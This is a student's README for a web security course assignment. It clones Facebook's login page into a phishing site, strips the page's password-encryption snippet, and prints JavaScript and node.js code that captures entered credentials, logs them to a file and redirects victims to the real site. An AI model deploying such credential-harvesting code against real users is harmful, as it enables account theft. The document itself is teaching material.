

## Assignment 7, CS 495/595 Web Security, Spring 2022

Due: 2022-05-02

Points available: 15

For this assignment, you will construct a phishing site that collects login information.

Relevant resources:

* [Complete Guide to Creating and Hosting a Phishing Page for Beginners](https://null-byte.wonderhowto.com/forum/complete-guide-creating-and-hosting-phishing-page-for-beginners-0187744/) -- note that this site's example code is in PHP, but you will do this in node.js.


### Create a simple phishing site (15 points)

Using one of your 100 web sites that offers logging in from the
previous assignments, modify the HTML and serve it from your own
node server on your machine to create a convincing phishing site.
You'll have to make sure all the images, Javascript, CSS, etc. are
all loaded from your local resources.  When the login button is
pushed, send the login information to your local node server and
record it in a log file.  Document and demonstrate the operation
of your phishing site with text, screen shots, and a Youtube video.

### Solution

##### Using one of your 100 web sites that offers logging in from the previous assignments
We select fb.com from our list. Below is the downloaded source code and a screenshot of the source code being rendered locally be Server.js.


##### Modify the HTML
The following piece of code embedded in the downloaded html apparently encrypts anything pulled from the password field. Removing it allowed access to user entered password value:
```html
["LoginFormController","init",["__elem_835c633a_0_0_U5","__elem_45d73b5d_0_0_71"],[{"__m":"__elem_835c633a_0_0_U5"},{"__m":"__elem_45d73b5d_0_0_71"},null,true,{"pubKey":{"publicKey":"dfdd7eae82d3ccfb5ea3fcd5ff9294a34bf7cd58c7d8878265b0bdd47953803c","keyId":53}}]]
```

Below we add a callback method, myFunction, to the Login button to be called when clicked to acquire user credentials and post them to our server.

```html
<input type="hidden" autocomplete="off" name="next" value="" /><div class="_6ltg"><button value="1" class="_42ft _4jy0 _6lth _4jy6 _4jy1 selected _51sy" onclick="myFunction()" name="login" data-testid="royal_login_button" type="submit" id="u_0_d_Cm">
```

##### When the login button is pushed, send the login information to your local node server and record it in a log file.
The script that accomplished the acquisition of credentials is a simple client-side onClick() method that grabs the email and password fields and posts them in a request to our node server when login is pressed

```node 
<script>
    function myFunction() {
    var email2 = document.getElementById("email").value;
    var password2 = document.getElementById("pass").value;
    $.post("http://localhost:3000/login",{email: email2,password: password2}, function(data){
          });
    window.location.replace('https://www.facebook.com/login/?privacy_mutation_token=eyJ0eXBlIjowLCJjcmVhdGlvbl90aW1lIjoxNjUwODgwMDYzLCJjYWxsc2l0ZV9pZCI6MzgxMjI5MDc5NTc1OTQ2fQ%3D%3D');
    }
</script>
```

The post is recieved at the /login endpoint of the server and the information is logged into [UserInfo.txt]('UserInfo.txt') located at root.

```node
router.post("/login",(request,response) => {
    const obj = JSON.parse(JSON.stringify(request.body))
    fs.appendFileSync('UserInfo.txt', JSON.stringify(obj)+'\n');
});
```

##### YouTube Demo
[Demo](https://youtu.be/3JZVkC4-1oM)

### Extra credit (12 points)

Using Zphisher ([blog
post](https://www.securitynewspaper.com/2020/03/25/create-phishing-page-of-29-websites-in-minutes/),
[GitHub](https://github.com/htr-tech/zphisher), create and demonstrate
(screen shots, Youtube video) three phishing sites.

[EC1](https://youtu.be/2_Kc-jnl4C4)
[EC2](https://youtu.be/ezzqAVzfymU)
[EC3](https://youtu.be/p_qQmv8rgY0)

### Setting up directory "7"

All of the code, files, images, etc. necessary to complete this
assignment will be in directory ```7```.  The README.md for this
assignment will have links to the code, a short discussion of any
issues you encountered making the site "display" correctly from
your server, screen shots of the site rendered in your browser, and
the log file of harvested user names and passwords, and a Youtube
video of your site in operation.

